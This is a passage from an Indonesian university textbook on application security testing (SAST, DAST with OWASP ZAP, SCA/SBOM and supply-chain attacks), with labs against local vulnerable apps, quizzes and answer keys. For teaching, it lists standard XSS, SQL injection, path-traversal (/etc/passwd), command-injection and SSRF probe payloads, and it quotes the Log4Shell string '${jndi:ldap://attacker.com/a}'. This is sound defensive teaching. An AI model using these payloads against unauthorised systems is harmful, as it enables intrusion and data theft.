**Konteks:** Startup dengan 5 developer, codebase Python/Django, GitHub repository, CI menggunakan GitHub Actions.

**Implementasi Bertahap:**

*Minggu 1 — Baseline:* Jalankan Semgrep dan SonarQube pada existing codebase. Hasilnya: 342 issues (220 FP, 122 TP). Fokus pada Critical/High dulu.

*Minggu 2-4 — Remediate Critical:* Fix 15 critical issues (SQLi, hardcoded secrets, command injection). Mark 80 FP setelah review.

*Minggu 5 — Enforce via CI:* Tambahkan Semgrep ke GitHub Actions. Quality gate: tidak ada Critical/High baru di setiap PR.

*Month 2+ — Maintenance:* Review FP/TP setiap sprint. Update rules sesuai perkembangan kerentanan baru.

---

## 7. Praktikum — Menjalankan SAST pada Kode Rentan

**Tujuan:** Menjalankan Semgrep dan SonarQube pada kode yang sengaja rentan, menginterpretasi hasil, dan memverifikasi setelah perbaikan.

**Target:** Repository vulnerable-python-app (lokal, bukan sistem eksternal)

**Prosedur:**
```bash
# 1. Clone target (contoh kode rentan untuk lab)
git clone https://github.com/WebGoat/WebGoat.git  # Atau dataset lokal yang disediakan

# 2. Jalankan Semgrep
semgrep --config=p/python . --json > semgrep-results.json
python3 -m json.tool semgrep-results.json | grep -A5 '"check_id"'

# 3. Analisis hasil: identifikasi TP vs FP
# 4. Fix 3 kerentanan yang ditemukan
# 5. Jalankan ulang Semgrep — verifikasi issues resolved
```

**Output yang Diperlukan:**
- Laporan semgrep sebelum dan sesudah fix
- Tabel klasifikasi (TP/FP) dengan justifikasi
- Diff kode untuk setiap perbaikan

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** SAST tidak dapat mendeteksi kerentanan yang bergantung pada:
A. Aliran data dari input pengguna ke SQL query  
B. Penggunaan algoritma kriptografi lemah (MD5)  
C. Logika bisnis yang memerlukan pemahaman konteks domain  
D. Hardcoded credentials dalam kode sumber

**Soal 2 (Analisis):** Apa trade-off antara meningkatkan sensitivitas (recall) SAST vs mengurangi false positive (precision)? Bagaimana Anda memilih threshold yang tepat untuk tim development yang berbeda maturity-nya?

**Soal 3 (Kode):** Tulis Semgrep rule YAML yang mendeteksi penggunaan `eval()` dalam Python dengan argument yang berasal dari variable (bukan string literal).

**Soal 4 (Konsep):** Jelaskan perbedaan antara SAST, DAST, dan IAST (Interactive AST). Untuk jenis kerentanan apa masing-masing paling efektif?

**Soal 5 (Praktik):** Bagaimana Anda mengkonfigurasi Quality Gate SonarQube untuk tim yang sedang dalam proses memperbaiki legacy code dengan banyak technical debt? Apa risiko memblokir semua PR hingga 0 issue?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: SAST Rollout di Perusahaan Telekomunikasi

Perusahaan telekomunikasi dengan 200 developer dan 50 repository akan mengimplementasikan SAST wajib. Situasi: codebase legacy Java (15 tahun), berbagai framework (Spring, Struts lama), CI/CD pipeline sederhana.

**Pertanyaan:**
1. **Roadmap Implementasi (C4)**: Desain roadmap 6 bulan untuk rollout SAST, mulai dari baseline assessment hingga enforcement penuh di semua repository. Pertimbangkan: resistensi developer, technical debt yang ada, dan bagaimana menentukan threshold "acceptable" untuk setiap fase.

2. **Evaluasi Tool (C5)**: Bandingkan SonarQube Community vs Enterprise vs Semgrep vs CodeQL untuk konteks ini. Buat matriks evaluasi yang mencakup: cakupan bahasa, kedalaman analisis, biaya, false positive rate, kemudahan integrasi, dan licensing.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — C:** SAST menganalisis kode secara statis dan dapat mendeteksi: aliran data tainted (A), penggunaan algoritma lemah berdasarkan nama fungsi (B), dan string literal seperti password (D). Yang TIDAK bisa dideteksi SAST adalah kerentanan yang bergantung pada logika bisnis — misalnya "apakah pengguna boleh mentransfer uang melebihi saldo" atau "apakah kombinasi role A + condition B menghasilkan privilege escalation yang tidak disengaja". Ini memerlukan DAST atau security-focused code review oleh manusia.

**Soal 3 — Semgrep rule:**
```yaml
rules:
  - id: dangerous-eval-dynamic
    pattern: eval($X)
    pattern-not: eval("...")
    message: "eval() with dynamic argument is dangerous (Code Injection)"
    severity: ERROR
    languages: [python]
    metadata:
      cwe: CWE-95
```

---

## 11. Ringkasan Bab

SAST menganalisis kode sumber menggunakan taint analysis, data flow, dan pattern matching untuk menemukan kerentanan sebelum aplikasi dijalankan. Tiga tool utama — SonarQube (platform komprehensif), Semgrep (fast, customizable rules), CodeQL (deep query-based) — memiliki trade-off berbeda. Kunci keberhasilan SAST: mengelola false positive dengan baik (dokumentasikan, jangan sekadar suppress), mengintegrasikan ke CI/CD sebagai quality gate, dan meningkatkan enforcement secara bertahap agar tidak menghambat produktivitas developer.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Developer seringkali frustrasi dengan false positive SAST karena "membuang waktu" untuk mem-review dan menandai false positive. Bagaimana Anda membangun kultur keamanan di tim di mana developer melihat SAST sebagai alat yang membantu, bukan hambatan? Apa peran tim keamanan dalam mengurangi friction ini?

**Pertanyaan Refleksi 2:** SAST memerlukan akses ke kode sumber — termasuk kode yang sangat sensitif seperti algoritma bisnis inti. Ketika menggunakan SAST cloud-based (seperti GitHub Code Scanning atau Snyk SAST), kode dikirim ke server vendor. Apa implikasi privasi dan IP (Intellectual Property) dari penggunaan SAST cloud? Bagaimana perusahaan di industri regulated (perbankan, pertahanan) seharusnya mendekati ini?

---


---

# BAB 11 — DYNAMIC APPLICATION SECURITY TESTING (DAST)

**Pertemuan:** 11  
**Sub-CPMK:** Sub-CPMK.4  
**CPMK:** CPMK.2, CPMK.3  
**Evaluasi:** Eval-4

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 11, mahasiswa mampu:

- Menjelaskan cara kerja DAST dan perbedaannya dari SAST dalam konteks Secure SDLC.
- Menggunakan OWASP ZAP dalam mode Proxy Manual, Active Scan, dan API Scan.
- Menginterpretasikan laporan DAST: membedakan kerentanan high/medium/low dan menentukan prioritas.
- Mengintegrasikan DAST ke dalam pipeline CI/CD untuk automated security testing.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    DAST2["DAST\nDynamic Application Security Testing"] --> HowWorks["Cara Kerja\n(Black-box / Gray-box)"]
    DAST2 --> ZAP2["OWASP ZAP\nCore Tool"]
    DAST2 --> BurpBasic["Burp Suite\n(Pendamping)"]
    DAST2 --> Integration2["Integrasi CI/CD\n(Automated DAST)"]

    HowWorks --> Crawl["1. Crawling/Spidering\n(Temukan semua endpoint)"]
    Crawl --> Fuzz["2. Fuzzing & Injection\n(Kirim payload berbahaya)"]
    Fuzz --> Analyze["3. Analisis Respons\n(Deteksi anomali/error)"]

    ZAP2 --> ManualProxy["Mode Proxy Manual\n(Intercept & Modify)"]
    ZAP2 --> ActiveScan["Mode Active Scan\n(Automated attacks)"]
    ZAP2 --> APIScan["Mode API Scan\n(OpenAPI/Swagger)"]
    ZAP2 --> ZAPCli["ZAP CLI\n(CI/CD integration)"]

    Integration2 --> BaselineScan["Baseline Scan\n(Passive only — no risk)"]
    Integration2 --> FullScan["Full Scan\n(Active — staging only!)"]
    Integration2 --> APIScan2["API Scan\n(REST API endpoint)"]
```

---

## 3. Pengantar Kontekstual

Jika SAST adalah "analisis X-ray" sebelum aplikasi berjalan, DAST adalah "uji tumbuk" pada aplikasi yang sedang berjalan. DAST mengirimkan input berbahaya nyata ke endpoint aplikasi dan mengamati respons — menemukan kerentanan yang hanya terlihat saat runtime, seperti: konfigurasi server yang salah, kerentanan di library runtime, atau logika bisnis yang bisa dieksploitasi.

**PERINGATAN PENTING:** DAST melakukan "serangan" nyata (meski dalam konteks testing). DAST **HANYA BOLEH** dijalankan pada:
1. Lingkungan lab/development yang dimiliki dan diotorisasi sendiri
2. Lingkungan staging yang terisolasi, dengan izin eksplisit
3. TIDAK PERNAH pada sistem production tanpa prosedur change management yang ketat dan izin tertulis

---

## 4. Landasan Teori

### 4.1 Cara Kerja DAST

DAST beroperasi sebagai "attacker otomatis" dengan tiga fase:

**Fase 1 — Discovery (Spidering):**
```
ZAP Spider menemukan semua URL, form, dan endpoint dengan:
- Crawling HTML links
- Menganalisis JavaScript untuk endpoint dinamis (AJAX Spider)
- Mengimport OpenAPI/Swagger spec untuk API
```

**Fase 2 — Active Scanning:**
Untuk setiap parameter di setiap endpoint, ZAP mengirimkan payload berbahaya:
```
XSS payloads:     <script>alert(1)</script>
SQLi payloads:    ' OR '1'='1
Path Traversal:   ../../../etc/passwd
Command Injection: ; ls -la
SSRF:             http://localhost/admin
```

**Fase 3 — Alert Analysis:**
ZAP menganalisis respons untuk tanda kerentanan: error message yang mengekspos database query, JavaScript dieksekusi (XSS confirmed), perbedaan waktu respons (blind SQLi), dll.

### 4.2 OWASP ZAP — Konfigurasi dan Penggunaan

**Instalasi:**
```bash
# Docker (paling mudah untuk CI/CD)
docker pull owasp/zap2docker-stable

# Atau download ZAP GUI dari zaproxy.org
```

**Mode Proxy Manual:**
```
1. Konfigurasi browser untuk menggunakan proxy ZAP (localhost:8080)
2. Browse aplikasi secara normal → ZAP merekam semua traffic
3. Review di ZAP: sites tree, request/response
4. Right-click request → "Active Scan" untuk test spesifik
```

**Active Scan via CLI (untuk CI/CD):**
```bash
# Baseline scan — passive only, aman untuk semua environment
docker run -t owasp/zap2docker-stable zap-baseline.py \
  -t http://staging.app.internal \
  -r baseline-report.html

# Full scan — HANYA di staging/lab dengan izin!
docker run -t owasp/zap2docker-stable zap-full-scan.py \
  -t http://staging.app.internal \
  -r full-report.html \
  -l WARN  # Hanya alert medium ke atas

# API scan dari OpenAPI spec
docker run -t owasp/zap2docker-stable zap-api-scan.py \
  -t http://staging.api.internal/openapi.json \
  -f openapi \
  -r api-report.html
```

### 4.3 Interpretasi Laporan ZAP

ZAP mengkategorikan alert berdasarkan risk:

| Risk Level | Contoh | Prioritas |
|---|---|---|
| High (Merah) | SQLi, XSS, RCE, Auth bypass | Fix sebelum release |
| Medium (Oranye) | CSRF missing token, Directory listing, Header keamanan hilang | Fix dalam sprint ini |
| Low (Kuning) | X-Content-Type-Options missing, Verbose error | Backlog security |
| Informational (Biru) | Teknologi yang terdeteksi, cookies | Awareness |

**Langkah Triage Alert:**
1. Baca deskripsi alert dan bukti yang diberikan ZAP
2. Verifikasi manual apakah benar-benar exploitable (hindari langsung percaya auto-scanner)
3. Klasifikasikan: True Positive / False Positive
4. Untuk TP: buat issue di tracker dengan severity sesuai CVSS

### 4.4 DAST vs SAST — Kapan Menggunakan

| Aspek | SAST | DAST |
|---|---|---|
| Fase SDLC | Development (kode ditulis) | Testing/Staging (sebelum release) |
| Akses kode | Perlu kode sumber | Tidak perlu (black-box) |
| Kerentanan yang baik | Injection logic, hardcoded secrets | Runtime config, business logic (terbatas) |
| False positive | Tinggi | Lebih rendah (exploitable nyata) |
| Kecepatan | Cepat (menit) | Lambat (jam untuk full scan) |
| Coverage | Semua code path | Hanya reachable path |

---

## 5. Model atau Arsitektur

### 5.1 DAST dalam Pipeline CI/CD (Aman)

```mermaid
flowchart LR
    Code["Kode\nDi-push"] --> Build["Build\nDeploy ke\nStaging Env"]
    Build --> SAST4["SAST\n(Semgrep/SonarQube)\nDi repo — cepat"]
    Build --> DAST3["DAST Baseline\n(ZAP Passive)\nDi staging — aman"]
    SAST4 --> Gate2{"Security\nGate"}
    DAST3 --> Gate2
    Gate2 -->|Pass| UAT["UAT Testing"]
    Gate2 -->|Fail| Fix3["Developer\nFix Issue"]
    Fix3 --> Code
    UAT --> FullDASTApproval["Approval Manual:\nFull DAST Scan\n(Hanya sebelum major release)"]
    FullDASTApproval --> Prod2["Deploy Production"]
```

---

## 6. Contoh Terapan

### Studi Kasus: DAST untuk Aplikasi e-Learning

**Konteks:** Platform e-learning dengan fitur: forum diskusi, upload tugas, quiz, dan pembayaran.

**Hasil Baseline ZAP Scan:**

| Alert | Risk | Count |
|---|---|---|
| X-Frame-Options Header Missing | Medium | 15 |
| Content Security Policy Header Not Set | Medium | 15 |
| Cookie Without Secure Flag | Medium | 3 |
| Timestamp Disclosure | Low | 8 |
| Server Leaks Version Info | Low | 1 |

**Hasil Active ZAP Scan (additional):**

| Alert | Risk | Detail |
|---|---|---|
| SQL Injection | High | POST /api/search, param: keyword |
| Reflected XSS | High | GET /forum/thread?title=, param: title |
| CSRF Token Not Found | Medium | POST /user/update-profile |

**Remediasi Prioritas:**
1. SQLi dan XSS (High) → Fix dalam 24 jam, hold release
2. CSRF (Medium) → Fix dalam sprint ini
3. Header keamanan (Medium) → Konfigurasi web server (Nginx/Apache) → cepat, tidak perlu code change

---

## 7. Praktikum — ZAP Scan pada DVWA

**Tujuan:** Menggunakan ZAP untuk mengidentifikasi kerentanan pada DVWA (Damn Vulnerable Web Application).

**Lingkungan Lab:**
```bash
# Jalankan DVWA lokal
docker run -d --name dvwa -p 8080:80 vulnerables/web-dvwa

# Set ke Security Level: Low (http://localhost:8080/security.php)
```

**Prosedur ZAP:**
1. Buka ZAP, set target: `http://localhost:8080`
2. Konfigurasikan sesi autentikasi DVWA di ZAP
3. Jalankan Spider untuk menemukan semua halaman
4. Jalankan Active Scan
5. Analisis laporan: dokumentasikan 5 alert teratas

**Etika Praktikum:** DVWA berjalan di mesin lokal Anda sendiri, tidak ada sistem nyata yang terpengaruh. Data yang diuji bukan data nyata.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** DAST "Full Scan" TIDAK BOLEH dijalankan pada:
A. Server staging yang diinisialisasi fresh untuk setiap sprint  
B. Lab lokal di mesin development  
C. Aplikasi yang sudah di-deploy di production dengan pengguna nyata  
D. Container Docker yang berjalan di localhost

**Soal 2 (Analisis):** Sebuah alert ZAP "SQL Injection" memiliki bukti: `Response: syntax error near ''`. Bagaimana Anda memverifikasi apakah ini true positive atau false positive sebelum membuat bug report?

**Soal 3 (Konsep):** Mengapa DAST lebih efektif dari SAST untuk menemukan "security misconfiguration" seperti header HTTP yang hilang? Jelaskan dari sifat kedua pendekatan.

**Soal 4 (Praktik):** Apa risiko menjalankan DAST Full Scan pada database staging yang mengandung salinan data produksi (anonymized)? Apa yang harus dilakukan untuk meminimalkan risiko ini?

**Soal 5 (Desain):** Bagaimana Anda mengkonfigurasi DAST agar dapat mengakses halaman yang memerlukan autentikasi (login terlebih dahulu)?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Persiapan DAST untuk Aplikasi Perbankan

Bank digital akan meluncurkan mobile banking app baru dalam 2 minggu. Tim keamanan ingin melakukan DAST namun khawatir tentang dampak ke lingkungan testing yang berbagi beberapa komponen dengan produksi.

**Pertanyaan:**
1. **Perencanaan DAST (C4)**: Desain rencana DAST yang aman untuk skenario ini. Tentukan: lingkungan yang tepat untuk scan, komponen mana yang boleh dan tidak boleh di-scan, konfigurasi ZAP, dan prosedur rollback jika scan menyebabkan masalah.

2. **Temuan Kritis (C5)**: ZAP melaporkan "SQL Injection" pada endpoint `/api/v1/accounts/{id}/transactions`. Anda sebagai security engineer harus memverifikasi, mengklasifikasikan (CVSS), dan membuat laporan ke manajemen tentang apakah launch harus ditunda. Bagaimana proses pengambilan keputusan ini? Siapa yang dilibatkan dan informasi apa yang perlu ada?

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — C:** Production dengan pengguna nyata adalah satu-satunya yang tidak boleh. Staging fresh (A) aman karena tidak ada data nyata dan terisolasi. Lab lokal (B) dan localhost (D) sepenuhnya aman. Pada production, active scan ZAP dapat: mengubah/menghapus data, menyebabkan error yang terlihat pengguna, memicu alert monitoring yang tidak perlu, dan menghabiskan resources.

**Soal 2:** Untuk verifikasi SQLi dari ZAP: (1) Buka ZAP History, temukan request yang memicu alert. (2) Lihat payload yang dikirim dan respons yang diterima. (3) Uji manual: kirim payload yang sama via ZAP Manual Request Editor atau browser. (4) Coba payload berbeda untuk konfirmasi: `1' AND '1'='1` (true) vs `1' AND '1'='2` (false) — jika respons berbeda, SQLi dikonfirmasi. (5) Untuk error-based: periksa apakah error message mengandung nama tabel/kolom database.

---

## 11. Ringkasan Bab

DAST menguji keamanan aplikasi yang sedang berjalan melalui pengiriman payload berbahaya dan analisis respons. OWASP ZAP menyediakan tiga mode: proxy manual (intercept), active scan (otomatis), dan API scan (dari spec). Kunci penggunaan DAST yang bertanggung jawab: hanya pada lingkungan yang diotorisasi (bukan production), verifikasi manual setiap alert sebelum dilaporkan, dan integrasikan baseline scan ke CI/CD untuk deteksi dini.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** DAST secara teknis melakukan "serangan" pada sistem — bahkan jika dalam konteks testing yang diotorisasi. Jika Anda menemukan bahwa DAST scan yang dijalankan tim Anda secara tidak sengaja mengakses data produksi melalui misconfigured environment, apa yang menjadi kewajiban Anda — teknis dan etis?

**Pertanyaan Refleksi 2:** Beberapa organisasi menggunakan "automated DAST in production" sebagai bagian dari continuous security testing. Apa kondisi yang harus dipenuhi agar pendekatan ini dapat dibenarkan secara etis dan teknis? Apa yang bisa salah?

---

# BAB 12 — SOFTWARE COMPOSITION ANALYSIS (SCA), SBOM, DAN SUPPLY CHAIN SECURITY

**Pertemuan:** 12  
**Sub-CPMK:** Sub-CPMK.4  
**CPMK:** CPMK.2, CPMK.3  
**Evaluasi:** Eval-4

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 12, mahasiswa mampu:

- Menjelaskan SCA dan mengapa ketergantungan pihak ketiga adalah risiko keamanan utama.
- Menggunakan OWASP Dependency-Check, Trivy, dan Snyk untuk menganalisis dependensi.
- Membuat dan menginterpretasikan Software Bill of Materials (SBOM) dalam format SPDX dan CycloneDX.
- Menjelaskan serangan supply chain (SolarWinds, XZ Utils, log4shell) dan mitigasinya.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    SCA2["Software Composition Analysis\n(SCA) &\nSupply Chain Security"] --> WhySCA["Mengapa SCA Penting?\n• 80%+ kode = dependensi\n• Satu CVE di library = ribuan aplikasi rentan"]
    SCA2 --> SCATools["Tools SCA"]
    SCA2 --> SBOM2["SBOM\nSoftware Bill of Materials"]
    SCA2 --> SupplyChain2["Software Supply\nChain Attacks"]

    SCATools --> DepCheck["OWASP Dependency-Check\n(Java, Python, .NET, npm)"]
    SCATools --> Trivy2["Trivy\n(Container, filesystem, SBOM)"]
    SCATools --> Snyk2["Snyk\n(SaaS, Developer-friendly)"]
    SCATools --> Syft2["Syft (SBOM generator)\n+ Grype (scanner)"]

    SBOM2 --> SPDX["Format SPDX\n(Linux Foundation)"]
    SBOM2 --> CycloneDX["Format CycloneDX\n(OWASP Standard)"]
    SBOM2 --> SBOMUse["Kegunaan SBOM:\nVulnerability tracking\nLicense compliance\nRegulatory (EO14028)"]

    SupplyChain2 --> SolarWinds2["SolarWinds (2020)\nBuild process compromise"]
    SupplyChain2 --> Log4Shell["Log4Shell (2021)\nCVE-2021-44228\nWidely used library"]
    SupplyChain2 --> XZUtils["XZ Utils (2024)\nSocial engineering + backdoor"]
    SupplyChain2 --> Mitigation2["Mitigasi Supply Chain:\nSBOM + Pin versions\nSign artifacts\nPrivate registry\nVerify checksums"]
```

---

## 3. Pengantar Kontekstual

Aplikasi modern jarang ditulis dari nol: rata-rata 80% kode dalam aplikasi enterprise berasal dari library dan framework pihak ketiga (open source atau komersial). Ini menciptakan attack surface yang besar — kerentanan dalam satu library dapat secara instan mempengaruhi ribuan aplikasi yang menggunakannya.

**Log4Shell (CVE-2021-44228)** adalah bukti nyata: kerentanan dalam Log4j (library logging Java yang digunakan hampir semua aplikasi Java) mengekspos ratusan juta sistem dalam hitungan hari. Remediasi memerlukan audit seluruh ekosistem software organisasi — yang sebelumnya tidak memiliki SBOM tidak tahu apakah mereka menggunakan Log4j atau tidak.

---

## 4. Landasan Teori

### 4.1 Software Composition Analysis (SCA)

SCA menganalisis semua komponen pihak ketiga (libraries, frameworks, containers) untuk menemukan kerentanan yang diketahui, dengan mencocokkan dengan database CVE.

**Cara Kerja:**
```
1. Identifikasi semua dependensi (langsung dan transitive)
   requirements.txt → Flask → Werkzeug → ... (transitive)
   
2. Buat inventory: nama, versi, hash

3. Cocokkan dengan database CVE (NVD, OSV, GitHub Advisory)

4. Hasilkan laporan: CVE yang ditemukan + severity + patch tersedia

5. Policy enforcement: blokir build jika ada CVE Critical
```

**OWASP Dependency-Check:**
```bash
# Analisis proyek Python
dependency-check.sh \
  --project "MyApp" \
  --scan /path/to/requirements.txt \
  --format HTML \
  --out ./reports/

# Analisis container image
trivy image python:3.11-slim

# Analisis filesystem/direktori
trivy fs /path/to/project --format json > trivy-report.json
```

**Interpretasi Hasil Trivy:**
```
myapp/requirements.txt (pip)
Total: 3 (CRITICAL: 1, HIGH: 1, MEDIUM: 1)

┌────────────────────┬─────────────────────┬──────────┬──────────────┬
│      Library       │    Vulnerability    │ Severity │Fixed Version │
├────────────────────┼─────────────────────┼──────────┼──────────────┼
│ cryptography 38.0.0│ CVE-2023-23931      │ CRITICAL │    40.0.0    │
│ Pillow 9.0.0       │ CVE-2023-44271      │ HIGH     │    10.0.1    │
│ requests 2.27.0    │ CVE-2023-32681      │ MEDIUM   │    2.31.0    │
└────────────────────┴─────────────────────┴──────────┴──────────────┘
```

### 4.2 Software Bill of Materials (SBOM)

SBOM adalah "daftar bahan" software — inventarisasi lengkap semua komponen yang membentuk sebuah aplikasi, termasuk library, framework, tools build, dan dependensi transitive.

**Regulasi SBOM:** Executive Order 14028 (2021) mewajibkan SBOM untuk semua software yang dijual ke pemerintah AS. Ini mendorong adopsi global.

**Generate SBOM:**
```bash
# Menggunakan Syft (format CycloneDX)
syft packages /path/to/project \
  --output cyclonedx-json \
  > sbom.cdx.json

# Menggunakan Trivy (format SPDX)
trivy fs /path/to/project \
  --format spdx-json \
  > sbom.spdx.json

# Scan SBOM untuk kerentanan menggunakan Grype
grype sbom:./sbom.cdx.json
```

**Format SBOM (CycloneDX — contoh parsial):**
```json
{
  "bomFormat": "CycloneDX",
  "specVersion": "1.5",
  "version": 1,
  "metadata": {
    "component": {
      "type": "application",
      "name": "MySecureApp",
      "version": "2.1.0"
    }
  },
  "components": [
    {
      "type": "library",
      "name": "cryptography",
      "version": "40.0.2",
      "purl": "pkg:pypi/cryptography@40.0.2",
      "hashes": [{"alg": "SHA-256", "content": "abc123..."}],
      "licenses": [{"license": {"id": "Apache-2.0"}}]
    }
  ]
}
```

### 4.3 Software Supply Chain Attacks

**SolarWinds (2020) — Build Process Compromise:**
- Penyerang mengkompromikan sistem build SolarWinds
- Kode berbahaya disuntikkan ke dalam update resmi Orion software
- 18.000+ organisasi (termasuk lembaga pemerintah AS) menginstal update yang telah dimodifikasi
- **Pelajaran:** Kompromikan build pipeline = kompromikan semua pengguna software

**Log4Shell — CVE-2021-44228 (2021):**
- CVSS Score: 10.0 (Critical — maksimum)
- Library: Apache Log4j 2 (digunakan hampir semua aplikasi Java)
- Kerentanan: JNDI Injection — Log4j memproses string seperti `${jndi:ldap://attacker.com/a}` yang dapat memuat dan mengeksekusi kelas Java remote
- **Pelajaran:** Satu kerentanan di widely-used library = risiko di mana-mana; SBOM sangat diperlukan untuk mengetahui apakah Anda terdampak

**XZ Utils (2024) — Social Engineering:**
- Penyerang selama dua tahun membangun kepercayaan di komunitas open source sebagai kontributor
- Kemudian menyuntikkan backdoor ke XZ Utils (library kompresi Linux)
- Backdoor ditujukan untuk menyusupi SSH daemon
- **Pelajaran:** Ancaman supply chain termasuk social engineering komunitas open source, bukan hanya serangan teknis

**Mitigasi Supply Chain:**
```yaml
# 1. Pin semua versi dependensi (bukan ">=")
# requirements.txt RENTAN:
Flask>=2.0

# requirements.txt AMAN:
Flask==2.3.3  # Version pinned

# 2. Lock file + hash verification
pip install --require-hashes -r requirements.txt
# requirements.txt dengan hash:
Flask==2.3.3 \
  --hash=sha256:f69080...

# 3. SBOM + vulnerability scanning di setiap build

# 4. Private package registry dengan approval process
# (Nexus, Artifactory) — dependensi harus diapprove sebelum digunakan

# 5. Verifikasi signature artifact (Sigstore/cosign)
cosign verify <container-image>

# 6. SLSA Framework (Supply-chain Levels for Software Artifacts)
# Level 1-4: tingkat jaminan integritas build process
```

---

## 5. Model atau Arsitektur

### 5.1 Secure Software Supply Chain

```mermaid
flowchart LR
    Dev4["Developer\n(Code + Dependencies)"] --> PrivReg["Private\nPackage Registry\n(Nexus/Artifactory)\nApproved packages only"]
    PrivReg --> Build["CI Build Pipeline\n• Dependency-Check / Trivy\n• Generate SBOM\n• Sign artifacts"]
    Build --> SCAGate{"SCA Quality\nGate"}
    SCAGate -->|"0 Critical CVE"| SBOM3["SBOM Stored\n(CycloneDX/SPDX)\n+ Build provenance\n(SLSA)"]
    SCAGate -->|"Critical CVE found"| Block2["Build Blocked\nUpdate dependency!"]
    SBOM3 --> Registry["Artifact Registry\n(Signed container images)"]
    Registry --> Deploy["Deploy"]
    
    CVEFeed["CVE Feeds\n(NVD, OSV)"] -->|"Continuous monitoring"| SBOM3
    SBOM3 -->|"New CVE match → Alert"| Alert["Security Alert\nPatch Management"]
```

---

## 6. Contoh Terapan

### Studi Kasus: Log4Shell — Respons Insiden Supply Chain

**Tanggal:** 10 Desember 2021 — CVE-2021-44228 dipublikasikan.

**Organisasi dengan SBOM:**
- Tim keamanan menjalankan query SBOM: "Apakah ada komponen bernama log4j-core?"
- Dalam 30 menit: tahu persis sistem mana yang terdampak, versi berapa
- Prioritaskan: sistem internet-facing → patch atau mitigasi WAF dalam 2 jam

**Organisasi tanpa SBOM:**
- Tim keamanan harus manual inventarisasi 200+ aplikasi
- Pertanyaan kepada setiap tim: "Apakah Anda pakai Log4j?"
- Proses memakan waktu berhari-hari, sementara penyerang sudah aktif scanning
- Beberapa sistem terlewat karena dependensi transitif tidak diketahui

**Pelajaran:** SBOM bukan hanya "dokumen compliance" — ini adalah alat respons insiden.

---

## 7. Praktikum — SCA dan SBOM

**Tujuan:** Menggunakan Trivy untuk menganalisis dependensi dan menghasilkan SBOM.

```bash
# 1. Instalasi Trivy (pada lab Linux)
sudo apt-get install trivy

# 2. Scan requirements.txt (proyek Python lab yang disediakan)
trivy fs . --format table

# 3. Generate SBOM
trivy fs . --format cyclonedx --output sbom.json

# 4. Scan SBOM untuk CVE
trivy sbom ./sbom.json

# 5. Analisis output: dokumentasikan semua CVE yang ditemukan,
#    prioritaskan berdasarkan severity, identifikasi versi yang telah dipatch
```

**Output yang Diperlukan:**
- Laporan Trivy (tabel + JSON)
- SBOM dalam format CycloneDX
- Tabel remediasi: library → versi rentan → versi aman → jenis breaking change

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** SBOM paling berguna untuk:
A. Mencegah developer menggunakan library open source  
B. MempercepatResponse insiden ketika CVE baru ditemukan  
C. Menggantikan SAST dalam pipeline CI/CD  
D. Mengenkripsi dependensi sebelum deployment

**Soal 2 (Analisis):** Jelaskan perbedaan antara "direct dependency" dan "transitive dependency". Mengapa transitive dependency seringkali menjadi sumber kerentanan yang lebih sulit ditemukan?

**Soal 3 (Kasus):** Aplikasi Anda menggunakan library A versi 2.0. Library A bergantung pada library B versi 1.5. CVE ditemukan di library B versi 1.5 dengan severity Critical. Jelaskan jalur remediasi: opsi apa yang tersedia dan trade-off masing-masing?

**Soal 4 (Desain):** Bagaimana Anda mendesain "dependency approval process" untuk tim 20 developer — memastikan semua library baru yang ditambahkan telah diverifikasi keamanannya tanpa menghambat produktivitas secara signifikan?

**Soal 5 (Analisis):** Serangan XZ Utils 2024 dilakukan melalui social engineering multi-tahun terhadap maintainer open source. Apa implikasi dari jenis serangan ini terhadap kepercayaan pada ekosistem open source? Bagaimana komunitas dan organisasi harus merespons?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Membangun Program SCA di Perusahaan Manufaktur

Perusahaan manufaktur baru saja mengalami insiden: salah satu sistem otomasi pabrik menggunakan library dengan CVE kritis yang sudah diketahui 6 bulan sebelumnya, tetapi tidak pernah dipatch karena tim tidak tahu library tersebut digunakan.

**Pertanyaan:**
1. **Program SCA (C4)**: Rancang program SCA untuk perusahaan ini yang mencakup: inventarisasi awal semua software (termasuk OT/SCADA), integrasi SCA ke CI/CD, proses monitoring CVE baru pada software yang sudah deploy, dan kebijakan patch management berbasis risiko.

2. **Incident Post-Mortem (C5)**: Berdasarkan insiden di atas, tulis bagian "Root Cause Analysis" dan "Corrective Actions" untuk post-mortem report. Identifikasi: apa yang gagal (tidak hanya teknis, tapi proses dan people), mengapa CVE 6-bulan-lalu tidak memicu respons, dan apa yang harus berubah secara sistemik agar insiden serupa tidak terulang.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B:** SBOM memberikan inventarisasi lengkap semua komponen software. Ketika CVE baru diterbitkan (seperti Log4Shell), organisasi dengan SBOM dapat dengan cepat menentukan: apakah mereka menggunakan komponen yang terdampak, versi berapa, dan sistem mana yang perlu dipatch. Tanpa SBOM, ini bisa memakan berhari-hari manual audit.

**Soal 3:** Opsi remediasi ketika transitive dependency rentan:
(a) Update library A ke versi yang menggunakan library B yang lebih baru (jika tersedia) — ideal.
(b) Exclude library B dari dependency library A dan berikan versi aman secara eksplisit (jika package manager mendukung) — perlu testing.
(c) Jika tidak ada versi library A yang menggunakan library B aman: ganti library A dengan alternatif lain — breaking change, perlu effort besar.
(d) Sebagai sementara: mitigasi compensating control (WAF, network isolation) sambil menunggu patch — tidak permanen.

---

## 11. Ringkasan Bab

Software modern sangat bergantung pada komponen pihak ketiga — SCA wajib untuk mengelola risiko ini. Tiga tool utama (OWASP Dependency-Check, Trivy, Snyk) menganalisis dependensi dan memetakan ke CVE database. SBOM (CycloneDX/SPDX) adalah "daftar bahan" software yang mempercepat respons insiden ketika CVE baru muncul. Serangan supply chain (SolarWinds, Log4Shell, XZ Utils) membuktikan bahwa ancaman tidak hanya dari kode yang kita tulis, tetapi dari seluruh rantai komponen yang kita andalkan.

---

